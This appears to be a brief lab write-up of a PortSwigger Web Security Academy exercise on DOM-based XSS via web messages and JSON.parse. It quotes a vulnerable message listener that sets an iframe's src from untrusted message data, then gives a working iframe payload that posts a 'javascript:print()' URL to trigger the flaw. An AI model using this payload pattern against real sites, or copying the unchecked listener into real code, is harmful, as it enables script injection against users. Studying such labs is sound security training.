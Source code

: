 # DOM-based vulnerabilities

Get details at [here](https://portswigger.net/web-security/dom-based)

---

[Lab 3](https://portswigger.net/web-security/dom-based/controlling-the-web-message-source/lab-dom-xss-using-web-messages-and-json-parse)

Description of this lab: construct an HTML page on the exploit server that exploits this vulnerability and calls the print() function

Check the code, and we have this script for listening to event

```js
    <script>
                        window.addEventListener('message', function(e) {
                            var iframe = document.createElement('iframe'), ACMEplayer = {element: iframe}, d;
                            document.body.appendChild(iframe);
                            try {
                                d = JSON.parse(e.data);
                            } catch(e) {
                                return;
                            }
                            switch(d.type) {
                                case "page-load":
                                    ACMEplayer.element.scrollIntoView();
                                    break;
                                case "load-channel":
                                    ACMEplayer.element.src = d.url;
                                    break;
                                case "player-height-changed":
                                    ACMEplayer.element.style.width = d.width + "px";
                                    ACMEplayer.element.style.height = d.height + "px";
                                    break;
                            }
                        }, false);
                    </script>
```

Using this script for body exploit server, click to store and deliver to victim button, then solved the lab.

```html
    <iframe src=https://0a0a00c40438df56c0ea1539003800f9.web-security-academy.net/ onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}","*")'>
```